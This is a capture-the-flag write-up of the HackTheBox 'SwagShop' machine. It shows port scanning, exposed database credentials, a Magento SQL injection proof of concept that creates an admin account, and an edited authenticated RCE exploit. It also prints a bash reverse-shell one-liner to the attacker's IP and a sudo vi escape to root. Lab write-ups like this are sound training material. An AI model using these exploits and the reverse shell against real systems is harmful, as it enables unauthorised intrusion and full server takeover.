









# HackTheBox
------------------------------------
### IP: 10.129.97.42
### Name: SwagShop
### Difficulty: Easy
--------------------------------------------


I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/SwagShop]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.129.97.42 
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-24 08:56 CDT
Nmap scan report for 10.129.97.42
Host is up (0.080s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6552bd24e8fa3817261379a12f624ec (RSA)
|   256 2e30007a92f0893059c17756ad51c0ba (ECDSA)
|_  256 4c50d5f270c5fdc4b2f0bc4220326434 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Did not follow redirect to http://swagshop.htb/
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.17 seconds
```

Lets add swagshop.htb to `/etc/hosts`.

We can see that the site on port 80 is running Magento.



Running magescan against the target we see it is running version 1.9.0.0:

```
┌──(ryan㉿kali)-[~/Tools/exploits]
└─$ php magescan.phar scan:all http://swagshop.htb/
Scanning http://swagshop.htb/...

                       
  Magento Information  
                       

+-----------+------------------+
| Parameter | Value            |
+-----------+------------------+
| Edition   | Community        |
| Version   | 1.9.0.0, 1.9.0.1 |
+-----------+------------------+
```

Kicking off some directory fuzzing with:
```
┌──(ryan㉿kali)-[~/HTB/SwagShop]
└─$ feroxbuster --url http://swagshop.htb/ -x php txt -q 
```

We find some DB credentials in http://swagshop.htb/app/etc/local.xml



Continuing through the directory scanning results we find the admin login page at: http://swagshop.htb/index.php/admin



Looking for Magento exploits I find that Magento Shoplift is vulnerable to SQL injection. We can use the PoC at https://github.com/joren485/Magento-Shoplift-SQLI to create a new user:

```
┌──(ryan㉿kali)-[~/HTB/SwagShop]
└─$ python2 magento_sqli.py http://swagshop.htb
WORKED
Check http://swagshop.htb/admin with creds ypwq:123
```

We can now login at http://swagshop.htb/index.php/admin



Thinking back to the exploits I found for Magento, I recall having seen an authenticated RCE exploit. Now that I have valid credentials, this may work.

I find this script on exploitDB: https://www.exploit-db.com/exploits/37811

But this exploit will need a bit of tweaking for our purposes.

First lets add our created username and password, as well as update the install date variable found at http://swagshop.htb/app/etc/local.xml



Trying to run the script with the updates we've made, we get an error with mechanize:

```
┌──(ryan㉿kali)-[~/HTB/SwagShop]
└─$ python magento_rce.py http://swagshop.htb/index.php/admin "whoami"
Traceback (most recent call last):
  File "/home/ryan/HTB/SwagShop/magento_rce.py", line 55, in <module>
    br['login[username]'] = username
    ~~^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/mechanize/_mechanize.py", line 809, in __setitem__
    self.form[name] = val
    ~~~~~~~~~^^^^^^
  File "/usr/lib/python3/dist-packages/mechanize/_form_controls.py", line 1963, in __setitem__
    control = self.find_control(name)
              ^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/mechanize/_form_controls.py", line 2355, in find_control
    return self._find_control(name, type, kind, id, label, predicate, nr)
           ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/mechanize/_form_controls.py", line 2445, in _find_control
    raise AmbiguityError("more than one control matching " +
mechanize._form_controls.AmbiguityError: more than one control matching name 'login[username]'
```

Lets comment out line 53:



### Exploitation

Running the exploit again we get execution:

```
┌──(ryan㉿kali)-[~/HTB/SwagShop]
└─$ python2 magento_rce.py http://swagshop.htb/index.php/admin "whoami"
www-data
```

Lets use this to get a reverse shell:

```
┌──(ryan㉿kali)-[~/HTB/SwagShop]
└─$ python2 magento_rce.py http://swagshop.htb/index.php/admin/ "bash -c 'bash -i >& /dev/tcp/10.10.14.108/443 0>&1'" 
```



We can then grab the user.txt flag:



### Privilege Escalation

Running `sudo -l` to see if user www-data can run anything with elevated permissions, we see they can run vi on files in `/var/www/html`:

```
www-data@swagshop:/home/haris$ sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
```

This is a super dangerous configuration because we can use vi to execute system commands, and if we can execute those commands with sudo, we effectively have a root shell. 

Lets try it by entering `:sh` in our vi session:

```
www-data@swagshop:/var/www/html$ sudo /usr/bin/vi /var/www/html/index.php 
<SNIP>
:sh
root@swagshop:/var/www/html# whoami
root
root@swagshop:/var/www/html# id
uid=0(root) gid=0(root) groups=0(root)
```
We can now grab the root.txt flag:



Thanks for following along!

-Ryan

----------------------------------------------

